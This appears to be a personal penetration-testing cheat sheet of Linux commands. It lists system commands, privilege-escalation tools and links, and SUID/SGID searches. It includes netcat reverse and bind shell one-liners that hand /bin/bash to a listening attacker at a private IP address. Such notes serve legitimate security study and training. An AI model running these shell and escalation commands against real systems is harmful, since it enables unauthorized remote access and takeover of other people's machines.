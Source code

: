 `history`
`service x start`
`systemctl enable x`

`systemctl list-timers`
lists timers waiting to run

type any one of the following command to find os name and version in Linux:
`cat /etc/os-release`
`lsb_release -a`
`hostnamectl`

`nc`
- example reverse\
target: nc 192.168.129.129 4444 -e /bin/bash\
attacker: nc -nvlp 4444
- example bind\
target: nc -nlvp 444 -e /bin/bash\
attacker: nc 192.168.129.129 444
- on both: first listen, then connect

`linpeas`
search for possible paths to escalate privileges
also https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html
also also https://github.com/rebootuser/LinEnum

`pspy`
Monitor linux processes without root permissions 

`unix reverse shells one liners`
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

`Unix binaries that can be used to bypass local security restrictions`
https://gtfobins.github.io/

```find / -perm -u=s -type f 2>/dev/null```
Find SUID
```find / -perm -g=s -type f 2>/dev/null```
Find GUID

`/bin/sh -i`
get an interactive tty shell https://netsec.ws/?p=337

